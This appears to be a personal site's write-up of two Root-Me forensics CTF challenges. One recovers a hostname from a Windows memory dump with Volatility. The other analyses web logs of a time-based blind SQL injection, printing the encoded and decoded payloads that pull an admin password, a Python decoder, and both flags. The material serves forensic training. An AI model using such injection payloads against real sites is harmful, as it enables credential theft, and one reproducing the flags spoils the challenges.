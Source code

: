 # [Root-Me](./rootme.md) Root-Me Forensics [0/28]

Train digital investigation skills by analyzing memory dumps, log files, network captures...

## Contents

1. [Command & Control - level 2](#command-and-control-level-2)
2. [Logs analysis - web attack](#logs-analysis-web-attack)
3. [Command & Control - level 5](#command-control-level-5)
4. [Find the cat](#find-the-cat)
5. [Ugly Duckling](#ugly-duckling)
6. [Active Directory - GPO](#active-directory-gpo)
7. [Command & Control - level 3](#command-control-level-3)
8. [DNS exfiltration](#dns-exfiltration)
9. [Command & Control - level 4](#command-control-level-4)
10. [Job interview](#job-interview)
11. [Homemade keylogger](#homemade-keylogger)
12. [macOS - Keychain](#macos-keychain)
13. [Malicious Word macro](#malicious-word-macro)
14. [Ransomware Android](#ransomware-android)
15. [Insomni’Droid](#insomnidroid)
16. [iOS - Introduction](#ios-introduction)
17. [Multi-devices](#multi-devices)
18. [Root My Droid](#root-my-droid)
19. [Rootkit - Cold case](#rootkit-cold-case)
20. [Command & Control - level 6](#command-control-level-6)
21. [Find me](#find-me)
22. [Second job interview](#second-job-interview)
23. [Find me again](#find-me-again)
24. [Find me back](#find-me-back)
25. [Find me on Android](#find-me-on-android)
26. [Zeus Bot](#zeus-bot)
27. [Try again](#try-again)
28. [The Lost Case - Mobile Investigation](#the-lost-case-mobile-investigation)

---

### [Forensics](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## Command and Control level 2

- Author: Thanat0s
- Date: 16 February 2013
- Points: 15
- Level: 2

### Statement

Congratulations Berthier, thanks to your help the computer has been identified. You have requested a memory dump but before starting your analysis you wanted to take a look at the antivirus’ logs. Unfortunately, you forgot to write down the workstation’s hostname. But since you have its memory dump you should be able to get it back!

The validation flag is the workstation’s hostname.

The uncompressed memory dump md5 hash is e3a902d4d44e0f7bd9cb29865e0a15de

### Resources

1. [Volatility Cheatsheet v2.4](https://repository.root-me.org/Forensic/EN%20-%20Volatility%20cheatsheet%20v2.4.pdf).

### Attachments

1. [ch2.tbz2](http://challenge01.root-me.org/forensic/ch2/ch2.tbz2).

### Solutions

<details>

<summary markdown="span">Solution</summary>

The challenge file can be retrieved, inspected and decompressed:

~~~shell
$ wget http://challenge01.root-me.org/forensic/ch2/ch2.tbz2
--2022-01-29 08:25:20--  http://challenge01.root-me.org/forensic/ch2/ch2.tbz2
Resolving challenge01.root-me.org (challenge01.root-me.org)... 212.129.38.224, 2001:bc8:35b0:c166::151
Connecting to challenge01.root-me.org (challenge01.root-me.org)|212.129.38.224|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 185769248 (177M) [application/octet-stream]
Saving to: ‘ch2.tbz2’

ch2.tbz2                                                    100%[=========================================================================================================================================>] 177.16M  12.2MB/s    in 15s     

2022-01-29 08:25:36 (11.5 MB/s) - ‘ch2.tbz2’ saved [185769248/185769248]
$ file ch2.tbz2 
ch2.tbz2: bzip2 compressed data, block size = 900k
$ bzip2 -d ch2.tbz2
$ ls
ch2.tar
$ tar -xvf ch2.tar 
ch2.dmp
$ file ch2.dmp
ch2.dmp: data
~~~

Using [volatility](http://www.volatilityfoundation.org/#!releases/component_71401), the memory dump can be investigated:

~~~shell
$ vol.py -f ch2.dmp imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86_24000, Win7SP1x86
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/derek/Downloads/ch2.dmp)
                      PAE type : PAE
                           DTB : 0x185000L
                          KDBG : 0x82929be8L
          Number of Processors : 1
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0x8292ac00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2013-01-12 16:59:18 UTC+0000
     Image local date and time : 2013-01-12 17:59:18 +0100
~~~

This provides the profile and shows the memory dump is from a Windows machine.  The hives can be dumped to get the offset for the SYSTEM REGISTRY where the hostname is stored:

~~~shell
$ vol.py -f ch2.dmp --profile=Win7SP0x86 hivelist
Volatility Foundation Volatility Framework 2.6.1
Virtual    Physical   Name
---------- ---------- ----
0x8ee66740 0x141c0740 \SystemRoot\System32\Config\SOFTWARE
0x90cab9d0 0x172ab9d0 \SystemRoot\System32\Config\DEFAULT
0x9670e9d0 0x1ae709d0 \??\C:\Users\John Doe\ntuser.dat
0x9670f9d0 0x04a719d0 \??\C:\Users\John Doe\AppData\Local\Microsoft\Windows\UsrClass.dat
0x9aad6148 0x131af148 \SystemRoot\System32\Config\SAM
0x9ab25008 0x14a61008 \SystemRoot\System32\Config\SECURITY
0x9aba79d0 0x11a259d0 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0x9abb1720 0x0a7d4720 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0x8b20c008 0x039e1008 [no name]
0x8b21c008 0x039ef008 \REGISTRY\MACHINE\SYSTEM
0x8b23c008 0x02ccf008 \REGISTRY\MACHINE\HARDWARE
0x8ee66008 0x141c0008 \Device\HarddiskVolume1\Boot\BCD
~~~

The hostname can be found:

~~~shell
$ vol.py -f ch2.dmp --profile=Win7SP0x86 printkey -o 0x8b21c008 -K 'ControlSet001\Control\ComputerName\ComputerName'
Volatility Foundation Volatility Framework 2.6.1

Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ComputerName (S)
Last updated: 2013-01-12 00:58:30 UTC+0000

Subkeys:

Values:
REG_SZ                        : (S) mnmsrvc
REG_SZ        ComputerName    : (S) WIN-ETSA91RKCFP
~~~

</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
WIN-ETSA91RKCFP
~~~

</details>

---

### [Forensics](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## Logs analysis web attack

- Author: sambecks
- Date: 05 July 2015
- Points: 25
- Level: 3

### Statement

Our website appears to have been attacked, but our system administrator does not understand web server logs. Can you find out if any data has been stolen ?

### Attachments

1. [ch13.txt](http://challenge01.root-me.org/forensic/ch13/ch13.txt).

### Solutions

<details>

<summary markdown="span">Solution</summary>

The challenge file can be opened:

~~~
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
...
192.168.1.23 - - [18/Jun/2015:12:17:02 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDIxLDEpKSksNywxKSksY2hhcig0OCksY2hhcig0OSkpIHdoZW4gMSB0aGVuIHNsZWVwKDIpIHdoZW4gMiB0aGVuIHNsZWVwKDQpICBlbmQpIGZyb20gbWVtYnJlcyB3aGVyZSBpZD0xKQ%3D%3D HTTP/1.1" 200 833 "-" "-"

~~~

This shows a series of HTTP GET requests to the site admin page.  The form submission includes "action=membres" and "order=XXX" where XXX is a base64 encoded string.

Extracting the base64 string, the decoded strings can be found:

~~~
ASC,(select (case field(concat(substring(bin(ascii(substring(password,1,1))),1,1),substring(bin(ascii(substring(password,1,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1)
...
ASC,(select (case field(concat(substring(bin(ascii(substring(password,21,1))),7,1)),char(48),char(49)) when 1 then sleep(2) when 2 then sleep(4)  end) from membres where id=1)
~~~

This shows a SQL Injection attack on user id=1's password.  The attack compares 2 password bits to char(48) and char(49)... 0 and 1 and sleeps for 0 if it is 00, 2 is it if 01, 4 if it is 10 or 6 if it is 11.  The 4th inject compares a single bit to 0 or 1.  The decompilation can be automated in Python:

~~~py
import base64 as b64 
from datetime import datetime as dt
file = "ch13.txt"

f = open(file,"r")
lines = f.read().split("\n")[:-1]
times = []
for line in lines:
    timestr = line[30:38]
    dtg = dt.strptime(timestr,'%H:%M:%S')
    times.append(dtg)

tdelta = []

for i in range(1,len(times)):
    tdelta.append(int(str(times[i]-times[i-1])[-2:]))
    
binstr = ""
binarr = []
intarr = []
answer = ""

for i in range(len(lines)-1):
    td = tdelta[i]
    b64str = lines[i][80:]
    b64str = b64str.split(" HTTP")[0]
    b64str = b64str.split("%3D")[0]
    appends = (4-len(b64str)%4)%4
    b64str += "="*appends
    asciistr = b64.b64decode(b64str).decode()
    if "TRUE" in asciistr:
        if td == 0:
            binstr += "00"
        elif td == 2:
            binstr += "01"
        elif td == 4:
            binstr += "10"
        elif td == 6:
            binstr += "11"
    else:
        if td == 2:
            binstr += "0"
        elif td==4:
            binstr += "1"
        binarr.append(binstr)
        intarr.append(int(binstr,2))
        answer += chr(int(binstr,2))
        binstr = ""
        
print(answer)
~~~

</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
g9UWD8EZgBhBpc4nTSAS
~~~

</details>

---

### [Forensics](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

Last updated Jan 2022.

## [djm89uk.github.io](https://djm89uk.github.io)
